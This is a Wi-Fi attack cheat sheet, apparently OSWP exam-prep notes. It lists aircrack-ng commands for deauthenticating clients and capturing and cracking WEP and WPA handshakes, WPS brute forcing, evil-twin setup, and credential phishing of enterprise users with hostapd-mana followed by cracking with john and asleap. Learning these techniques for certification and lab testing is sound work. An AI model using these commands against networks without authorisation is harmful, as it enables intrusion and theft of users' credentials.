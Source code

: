 # Chapter 0.6 - Another Quick Cheat Sheet

Here's the revised cheat sheet for Wi-Fi hacking, including **WPA2/WPA3 Enterprise attacks using manual methods** like **`hostapd-mana`** instead of automated tools.

---

### **Wi-Fi Hacking Cheat Sheet (Manual Approach)**

---

#### **1. Wireless Standards and Frequencies**
- **802.11a**: 5 GHz, 54 Mbps
- **802.11b**: 2.4 GHz, 11 Mbps
- **802.11g**: 2.4 GHz, 54 Mbps
- **802.11n**: 2.4/5 GHz, up to 600 Mbps
- **802.11ac**: 5 GHz, up to 1.3 Gbps
- **802.11ax (Wi-Fi 6)**: 2.4/5 GHz, 10+ Gbps

#### **2. Wi-Fi Encryption Types**
- **WEP**: Vulnerable, uses RC4, 24-bit IV (easily cracked using tools like `aircrack-ng`)
- **WPA**: TKIP (Temporal Key Integrity Protocol), RC4 (deprecated)
- **WPA2**: CCMP/AES encryption, commonly used but vulnerable to KRACK
- **WPA3**: Uses SAE (Simultaneous Authentication of Equals), more secure but requires advanced attacks
- **WPA2/WPA3 Enterprise**: EAP (Extensible Authentication Protocol) with a RADIUS server for user authentication

---

#### **3. Tools for Wireless Hacking**

- **`airmon-ng`**: Enable/disable monitor mode
    - Start: `airmon-ng start wlan0`
    - Stop: `airmon-ng stop wlan0mon`
  
- **`airodump-ng`**: Capture and monitor packets
    - Basic command: `airodump-ng wlan0mon`
    - Channel specific: `airodump-ng -c <channel> wlan0mon`
  
- **`aireplay-ng`**: Deauthenticate or inject packets
    - Deauth: `aireplay-ng -0 10 -a <AP MAC> wlan0mon`
    - Fake auth: `aireplay-ng -1 0 -a <AP MAC> -h <your MAC> wlan0mon`
  
- **`aircrack-ng`**: Crack captured packets
    - Crack WEP: `aircrack-ng <capture file>.cap`
    - Crack WPA/WPA2: `aircrack-ng -w <wordlist> <capture file>.cap`

- **`hostapd-mana`**: A specialized version of `hostapd` for man-in-the-middle attacks on WPA2/WPA3 Enterprise.

---

#### **4. Attacking WEP**

- **Capture the handshake:**
    - `airodump-ng --bssid <BSSID> -c <channel> -w <output file> wlan0mon`
  
- **Fake Authentication:**
    - `aireplay-ng -1 0 -a <BSSID> -h <your MAC> wlan0mon`
  
- **ARP Request Replay (inject packets to speed up cracking):**
    - `aireplay-ng -3 -b <BSSID> wlan0mon`
  
- **Crack WEP Key:**
    - `aircrack-ng <output file>.cap`

---

#### **5. Attacking WPA/WPA2 (PSK)**

- **Capture WPA Handshake:**
    - `airodump-ng --bssid <BSSID> -c <channel> -w <output file> wlan0mon`
  
- **Deauthenticate a client to force reauthentication:**
    - `aireplay-ng -0 5 -a <AP MAC> -c <Client MAC> wlan0mon`
  
- **Crack WPA/WPA2 using a wordlist:**
    - `aircrack-ng -w <wordlist> <output file>.cap`
    - Recommended wordlist: `rockyou.txt`

---

#### **6. WPS Attack (Manual Approach)**

- **Find WPS-enabled APs** using `wash`:
    - `wash -i wlan0mon`
  
- **Attempt to brute force the WPS PIN manually with `reaver` or manually crafted scripts**.

---

#### **7. Hidden SSID Discovery**

- **Capture Hidden SSID:**
    - `airodump-ng -c <channel> --bssid <BSSID> -w <output file> wlan0mon`
  
- **Deauth Clients to reveal SSID:**
    - `aireplay-ng -0 10 -a <BSSID> wlan0mon`

---

#### **8. Evil Twin Attack (Manual Setup)**

- **Set up Rogue AP with `hostapd`:**
    - Create a configuration file for `hostapd` to mimic the target AP's SSID and encryption settings.
    - Start `hostapd`:  
      ```bash
      hostapd /path/to/hostapd.conf
      ```

- **Capture client traffic and credentials manually using a packet capture tool** like `tcpdump` or `wireshark`.

---

#### **9. WPA2/WPA3 Enterprise Attacks (Manual)**

- **Rogue AP Attack using `hostapd-mana`** (WPA2 Enterprise):
    - **Install `hostapd-mana`:**
      ```bash
      apt-get install hostapd-mana
      ```
    - **Configure `hostapd-mana`:**
      Edit the configuration file (`hostapd-mana.conf`) to match the SSID of the target network and set up the rogue AP to capture enterprise credentials.
    - **Run `hostapd-mana`:**
      ```bash
      hostapd-mana /path/to/hostapd-mana.conf
      ```
    - **Monitor captured credentials** by logging the attempts made by clients to authenticate.

- **Manual EAP Phishing Attack using `hostapd-mana`:**
    - **Modify `hostapd-mana.conf`** to enable credential phishing.
    - Set `eap_user_file` and `eap_server_cert` to intercept and capture PEAP/MSCHAPv2 credentials.
    - Launch the rogue AP and capture credentials:
      ```bash
      hostapd-mana /path/to/hostapd-mana.conf
      ```
    - **Captured PEAP/MSCHAPv2 credentials** can be brute-forced using tools like `john`:
      ```bash
      john --wordlist=<wordlist> captured_hashes.txt
      ```

---

#### **10. Manual EAP Credential Cracking (PEAP/MSCHAPv2)**

- **Crack LEAP Credentials with `asleap`:**
    - After capturing the challenge and response from the LEAP authentication, use:
      ```bash
      asleap -C <challenge> -R <response> -W <wordlist>
      ```

- **Crack PEAP/MSCHAPv2 Credentials with `john`**:
    - Once you capture the EAP-MSCHAPv2 handshake:
      ```bash
      john --wordlist=<wordlist> eap-hashes.txt
      ```

---

#### **11. Miscellaneous Commands**

- **Change MAC Address (if needed):**
    - `ifconfig wlan0 down`
    - `macchanger -r wlan0`
    - `ifconfig wlan0 up`
  
- **Check for Network Interfaces:**
    - `ifconfig` or `iwconfig`
  
- **Switch to Monitor Mode:**
    - `airmon-ng start wlan0`

---

#### **12. Practice**

- **Set up your own test environment using a router**: Configure WPA2 Enterprise with a RADIUS server to simulate realistic attacks and practice safely.

- **Use `Wireshark` to analyze captured traffic**: Understanding the structure of EAP handshakes and PEAP/MSCHAPv2 exchanges will help during credential interception.

---

### **Tips for the OSWP Exam**
- **Understand each step of manual attacks**: From setting up a rogue AP to intercepting and cracking credentials, focus on the underlying protocols.
- **Capture WPA2 Enterprise credentials**: Practice using `hostapd-mana` to set up rogue APs and capture PEAP/MSCHAPv2 handshakes.
- **Crack captured hashes manually** using tools like `john` or `asleap`.

Good luck with your OSWP exam preparation! Let me know if you need further clarifications or details.